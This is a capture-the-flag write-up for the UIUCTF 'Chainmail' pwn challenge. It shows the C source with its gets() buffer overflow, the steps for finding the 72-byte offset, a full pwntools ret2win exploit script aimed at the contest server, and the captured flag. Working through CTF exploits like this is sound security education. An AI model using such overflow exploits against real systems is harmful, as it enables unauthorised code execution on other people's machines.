


Below is my Writeup for challenges that I managed to solve together with my [team](https://ctftime.org/team/206364)

#### Chainmail (Pwn)
We are given a C file and an executable. On viewing the C file:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void give_flag() {
    FILE *f = fopen("/flag.txt", "r");
    if (f != NULL) {
        char c;
        while ((c = fgetc(f)) != EOF) {
            putchar(c);
        }
    }
    else {
        printf("Flag not found!\n");
    }
    fclose(f);
}

int main(int argc, char **argv) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    char name[64];
    printf("Hello, welcome to the chain email generator! Please give the name of a recipient: ");
    gets(name);
    printf("Okay, here's your newly generated chainmail message!\n\nHello %s,\nHave you heard the news??? Send this email to 10 friends or else you'll have bad luck!\n\nYour friend,\nJim\n", name);
    return 0;
}
``` 
There is a main function of which performs some printf functions then we see a gets function which is vulnerable to buffer overflow. There is a function also give_flag() which opens a flag.txt, that is the function we want to execute. This is a classic ret2win challenge.

Let us find the offset:
I will use gdb and cyclic to do that.

cyclic 100 
<pre> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa</pre>
Since we see the buffer accepts 64 bytes then we can input more than 64 characters 
I will put the break after gets functions 
The program breaks due to sigsegv(segmentation fault)

Copy the value in rsp to find padding  using cyclic 
 
NIce, We get the offset being 72, Now we need to know the address of give_flag that we need to execute. That should be pretty easy using gdb.

Now developing the exploit, I Used [pwninit](https://github.com/io12/pwninit) to patch the binary and develop a solve script that uses pwntools. In the solve script, due to stack alignment issues we need to have a ret function other than the flag function so that it can execute well. We can find the ret function using ROPgadget

Here is the exploit.
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("chal_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("chainmail.chal.uiuc.tf", 1337)

    return r


def main():
    r = conn()
    padding = b"A"*72
    ret = p64(0x000000000040101a)
    flag_win = p64(0x0000000000401216)
    payload = padding + ret + flag_win

    # good luck pwning :)
    r.recvuntil(b"recipient:")
    r.sendline(payload)
    r.interactive()


if __name__ == "__main__":
    main()
```
Testing it locally, I made a test flag to test the exploit.


The script works fine, testing it using remote:
We get the flag 
<pre>uiuctf{y0ur3_4_B1g_5h0t_n0w!11!!1!!!11!!!!1}</pre>

More writeups coming


